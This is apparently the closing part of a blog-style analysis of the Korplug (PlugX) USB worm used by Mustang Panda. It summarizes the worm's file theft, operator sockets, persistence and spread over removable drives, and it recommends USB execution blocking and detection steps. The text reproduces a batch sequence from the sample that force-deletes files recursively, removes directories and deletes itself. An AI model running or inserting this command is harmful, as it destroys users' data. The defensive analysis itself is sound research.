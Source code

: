The Korplug worm operates by systematically crawling through the hard drive, identifying and copying selected files, which it then stores in the RECYCLE.bin folder in Base64 format. It establishes network communication by setting up sockets to interact with its operator. To ensure persistence, it continuously executes its init() function, maintaining its presence on the system. Additionally, it checks for removable drives to propagate itself further.

However, this sample contains many more aspects worth exploring. Certain details have been intentionally omitted to keep this summary concise. Expanding further on its functions and capabilities might risk making the article overly complex and difficult to follow.
A small tease on fun things you could find are for example the this command sequence. Very exciting, promise.

ping 127.0.0.1 -n 5 > nul 2> nul
cd
del *.* /f /s /q /a
cd ..
rd
del %0

# Detection Ideas & Suggestions

One thing that bothers me when reading about a group, malware, or techniques is the lack of a follow-up section with actionable steps - like a "call to action" - or recommendations for further reading.
So below, I've linked a few articles covering the malware, its different variants, and information about the group Mustang Panda, along with some news articles about their campaigns.

Since this is a USB-type worm that attempts to trick the user into clicking the .lnk file, which then launches the executable and ultimately sets up the DLL sideloading chain, the best defence is to prevent USB devices from running executables. This can be achieved through Group Policy Objects (GPOs) or Windows Defender Attack Surface Reduction (ASR). Additionally, modifying the AutoRun feature in the registry to block execution is recommended.
You could even go a step further set up detection rules for USB that isn't issued by your company.

If you made it this far…what the hell, good job.༼ つ ◕_◕ ༽つ

# Further Reading:

- Microsoft. *Dynamic-link library search order – Win32 apps*. Microsoft Learn. Available at: Dynamic-link library search order – Win32 apps | Microsoft Learn

- CrowdStrike. *Mustang Panda | Threat Actor Profile*. Available at: Mustang Panda | Threat Actor Profile | CrowdStrike

- Check Point Research. *Mustang Panda's Hodur: Old tricks, new Korplug variant*. Available at: Mustang Panda's Hodur: Old tricks, new Korplug variant

- THOR. *Previously Unseen PlugX Variant Deployed During Microsoft Exchange Server Attacks by PKPLUG Group*. Available at: THOR: Previously Unseen PlugX Variant Deployed During Microsoft Exchange Server Attacks by PKPLUG Group

- United States Department of Justice. *Justice Department and FBI Conduct International Operation to Delete Malware Used by China-Backed Hackers*. Office of Public Affairs. Available at: Operation to Delete Malware Used by China-Backed Hackers | United States Department of Justice Office of Public Affairs
